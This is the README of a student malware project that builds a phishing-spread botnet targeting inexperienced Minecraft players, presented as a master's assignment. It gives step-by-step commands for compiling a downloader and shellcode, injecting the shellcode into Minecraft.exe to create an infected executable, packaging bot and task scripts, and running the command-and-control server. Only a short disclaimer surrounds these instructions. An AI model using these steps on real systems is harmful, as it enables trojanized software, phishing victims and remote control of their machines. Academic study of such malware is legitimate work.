 # MALW-MinecraftBotnet

MinecraftBotnet is a project develop to create an automated botnet which propagate though phishing emails. The target audience would be unexperienced people that plays Minecraft. This project was develop as Assignment during the Malware's subject of the Master's degree in Cybersecurity (UPC).

> [!CAUTION]
> **DISCLAIMER: This project was done for educational purposes. We are not responsible for the use you give it.**

## Structure

This project was divided in 5 sections that focuses in different aspects of the botnet guts.

1. [API](/API/): Simple webserver API which will provide all available files to be downloaded and shedule each machine, inside the botnet, to execute the desired tasks.
1. [InfectPE](/InfectPE/): This folder contains a self-version program which allows to inject shellcode into any executable via the creation of a new section. Original version [InfectPE](https://github.com/secrary/InfectPE).
1. [Malware](/Malware/): Main program that executes in the victim's computer.
1. [Payload](/Payload/): The shellcode script that will be injected into the executable, and another c++ script that will be downloaded by the shellcode, in charge of setting up the malware in victim's computer.
1. [Scripts](/Scripts/): This folder contains the task that is executed by the malware.

## Intruction:

### Compiling shellcode and mainDownloader
Maindownloader:

- `$ cd /Payload`
- `$ gcc -m32 MainDownloader.c -o MainDownloader.exe -lurlmon`
- Now, you can place the generated executable inside [API downloads folder](/API/downloads).


Payload (shellcode):
* `$ cd /Payload`
* `$ ./ShellcodeCompiler_x64.exe -r payload.cpp -a _assembly.asm -p win_x86`
* Inside the generated file `_assembly.asm` you must manually modify the assembly instruction to fix a bug. You must replace the instruction `mov eax, fs:[ecx + 0x30]` with `mov eax, [fs:ecx + 0x30]`.
* `$ nasm -g -f win32 _assembly.asm -o _assembly.o`
* `$ C:/MinGW/bin/ld.exe -g -mi386pe _assembly.o -o _assembly.exe`
>
* `$ objdump -d _assembly.exe`
  * ¡Gitbash required or any alternative! *See tmp.txt file to see the desired output
* Paste the .text section inside tmp.txt file
* `$ python dumpShellcode.py tmp.txt`

> [!TIP]
> You can use any other alternative to ouput the shellcode from an excutable.

> [!WARNING]
> We have encountered several errors with the gcc distribution. To compile the MainDownloader, we have used the `LLVM` distribution; however, for the shellcode part we have used `MinGW` distribution.

> [!IMPORTANT]
> You will need gcc, gcc for mutiplatform (32 bits), and nasm installed.

### Compiling the tasks
* `$ cd /Scripts`
* `$ python -m PyInstaller --onefile --noconsole times.py`
* Now, you can place the generated executable inside [API downloads folder](/API/downloads).

> [!IMPORTANT]
> You will need python installed with the module PyInstaller.

### Compiling the malware
* `$ cd /Malware`
* `$ python -m PyInstaller --onefile --noconsole botScript.py`
* Now, you can place the generated executable inside [API downloads folder](/API/downloads).

> [!IMPORTANT]
> You will need python installed with the module PyInstaller.

### Infecting the Minecraft executable
* Paste the shellcode generated previously inside the file `infectPE.cpp` - `char shellcode[] =`.
>
* `$ g++ -c PE.cpp -std=c++17`
* `$ g++ -c InfectPE.cpp -std=c++17`
* `$ g++ -o InfectPE.exe InfectPE.o PE.o`
* `$ ./InfectPE.exe ./Minecraft/Minecraft.exe ./Minecraft/Minecraft_Infected.exe`
* Now, you can place `./Minecraft/Minecraft_Infected.exe` inside [API downloads folder](/API/downloads).

## Running the Botnet server:
Before starting the server, remember to change the IP address depending on how you setup the network or the server itself (you could use directly `0.0.0.0:80`) inside `/API/BotnetAPI.py`.
> [!IMPORTANT]
> Keep in mind, that changing the IP implies changing the following files: payload.cpp, MainDownloader.c, botScript.py, and BotnetAPI.py. In addition, changing the payload and the MainDownloader involves translating to asm, compiling, and replacing the shellcode string again in infectPE.cpp. 

* `$ cd /API`
* `$ pip install -r requirements.txt`
* `$ python BotnetAPI.py`

> [!IMPORTANT]
> You will need python installed.

> [!TIP]
> Theoretically, you can deploy this API to docker; however, it was not tested for this project.

## Considerations

As the configuration varies from one computer/VM to another, the IP's may vary as well. For that reason, you should replace any IP from the Payload, MainDownloader or Malware scripts.

